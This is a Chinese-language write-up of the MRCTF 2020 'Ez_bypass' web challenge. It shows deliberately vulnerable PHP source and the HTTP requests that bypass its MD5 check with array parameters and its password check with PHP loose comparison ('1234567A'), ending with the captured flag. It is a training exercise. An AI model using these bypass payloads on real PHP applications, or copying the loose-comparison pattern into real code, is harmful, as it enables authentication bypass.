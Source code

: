 ```yaml
---
title: MRCTF 2020 Ez_bypass
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，看到如下代码（已在观感上优化），发现这是一道非常简单的绕过题

```php
<?php
// I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if (isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if (isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd)) {
                 if ($passwd==1234567) {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 } else {
                     echo "can you think twice??";
                 }
            } else {
                echo 'You can not get it !';
            }
        } else {
            die('only one way to get the flag');
        }
    } else {
        echo "You are not a real hacker!";
    }
} else {
    die('Please input first');
}
```

## MD5 绕过

观察代码 `md5($id) === md5($gg) && $id !== $gg`，通常我可能会想到 `0e` 漏洞，但是这里的 `md5($id) === md5($gg)` 是一个**强比较**，`0e` 漏洞其实行不通，所以我可以通过将 `id` 和 `gg` 定义成数组传入进去以绕过 MD5 的检测，以下是请求代码的一部分

```http
GET /?id[]=1&gg[]=2 HTTP/1.1
```

随后你就可以看到（下方回显已在观感上优化）

```
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 48
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 48

You got the first step
```

## `passwd` 绕过

这个非常简单，利用的就是字符串和数字的弱比较，既然他想要我的 `password` = `1234567` 并且不是数字，我只需要在传入的时候将 `password` 赋成 `1234567A` 即可，以下是最终的 Http 请求代码（别忘了 `passwd` 要 POST）

```http
POST /?id[]=1&gg[]=2 HTTP/1.1
Host: 1248334a-ce1e-4c57-b522-83b58653a081.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 1248334a-ce1e-4c57-b522-83b58653a081.node4.buuoj.cn:81
Connection: keep-alive
Content-Length: 15

passwd=1234567A
```

最后即可得到我们的 Flag，是 `flag{e87c75a7-0ed4-4747-bcee-56b8e230a64a}`